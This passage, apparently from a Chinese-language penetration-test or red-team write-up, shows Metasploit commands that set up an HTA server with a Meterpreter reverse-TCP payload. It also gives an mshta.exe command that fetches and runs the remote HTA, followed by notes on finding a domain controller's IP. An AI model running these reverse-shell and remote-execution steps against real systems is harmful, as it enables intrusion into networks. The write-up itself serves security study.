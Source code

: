     ```plain
    use exploit/windows/misc/hta_server
    set payload windows/meterpreter/reverse_tcp
    set lhost xx.xx.xx.xx
    set lport 6666
    ```
    
    执行 mshta.exe [http://xx.xx.xx.xx/pKz4Kk059Nq9.hta](http://xx.xx.xx.xx/pKz4Kk059Nq9.hta)  
    [![](assets/1698896982-57af87ded2685775c788905428874eae.png)](https://xzfile.aliyuncs.com/media/upload/picture/20200307185241-c4ab51e0-6061-1.png)
    
-   查找了下域控 ip 192.168.30.61  
    [![](assets/1698896982-ab06c1bffb2a17ec0d291a3655fe5abc.png)](https://xzfile.aliyuncs.com/media/upload/picture/20200307185313-d7d8beec-6061-1.png)
    
-   这里存活 ip 检测不够准确 (后面 cs 扫还有给.11 主机)  